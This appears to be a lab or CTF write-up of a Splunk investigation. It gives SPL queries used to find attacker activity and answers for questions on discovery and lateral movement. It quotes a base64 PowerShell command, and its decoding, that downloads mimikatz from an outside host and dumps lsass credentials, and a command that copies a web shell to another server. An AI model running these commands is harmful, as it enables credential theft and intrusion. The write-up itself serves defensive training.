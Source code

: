 I wasn't sure where to start here, but I supposed that there was an encoded  a powershell command executed somewhere.
Knowing this I started by parsing the entire value of the `CommandLine=` raw field, and skimmed through all the values found that end in `=`.
Query used:
```
index=* sourcetype!=adss sourcetype!=wmic  | rex field=_raw "CommandLine=(?<cmd>.*=)" 
| stats count by cmd 
| sort -count
```

Malicious command
```
-exec bypass -W hidden -nop -E SW52b2tlLVdlYlJlcXVlc3QgLVVyaSAiaHR0cDovL3ZvbHR5cC5jb20vMy90bHovbWltaWthdHouZXhlIiAtT3V0RmlsZSAiQzpcVGVtcFxkYjJcbWltaWthdHouZXhlIjsgU3RhcnQtUHJvY2VzcyAtRmlsZVBhdGggIkM6XFRlbXBcZGIyXG1pbWlrYXR6LmV4ZSIgLUFyZ3VtZW50TGlzdCBAKCJzZWt1cmxzYTo6bWluaWR1bXAgbHNhc3MuZG1wIiwgImV4aXQiKSAtTm9OZXdXaW5kb3cgLVdhaXQ=
```
![[Pasted image 20250620203833.png]]
Using CyberChef, I decoded the command.
```
Invoke-WebRequest -Uri "http://voltyp.com/3/tlz/mimikatz.exe" -OutFile "C:\Temp\db2\mimikatz.exe"; Start-Process -FilePath "C:\Temp\db2\mimikatz.exe" -ArgumentList @("sekurlsa::minidump lsass.dmp", "exit") -NoNewWindow -Wait
```
![[Pasted image 20250620203937.png]]

# Discovery & Lateral Movement
### 11. The attacker uses wevtutil, a log retrieval tool, to enumerate Windows logs. What event IDs does the attacker search for?
R= `4624` `4625` `4769`

By parsing the entire CommandLine value, and by searching for all the fields that start with wevtutil, we were able to get all the commands showing the event id's searched. 
```
index=* sourcetype!=adss sourcetype!=wmic  | rex field=_raw "CommandLine=(?<cmd>.*=)" 
| search cmd="wevtutil*"
| table cmd
```

![[Pasted image 20250620204534.png]]To practice named capture groups, I'll extract the single event ID and put it into a new field called `event_id`.
```
index=* sourcetype!=adss sourcetype!=wmic  | rex field=_raw "CommandLine=(?<cmd>.*=)"
| search cmd="wevtutil*"   // search for values that start with wevtutil
| rex field=_raw ".*EventID=(?<event_id>\d{4}).*"   // extract eventid
| table event_id    // show only event_id field
| stats count by event_id    // count each of the values
```
![[Pasted image 20250620204923.png]]
### 12. Moving laterally to server-02, the attacker copies over the original web shell. What is the name of the new web shell that was created?
R= `Copy-Item -Path "C:\Windows\Temp\iisstart.aspx" -Destination "\\server-02\C$\inetpub\wwwroot\AuditReport.jspx`
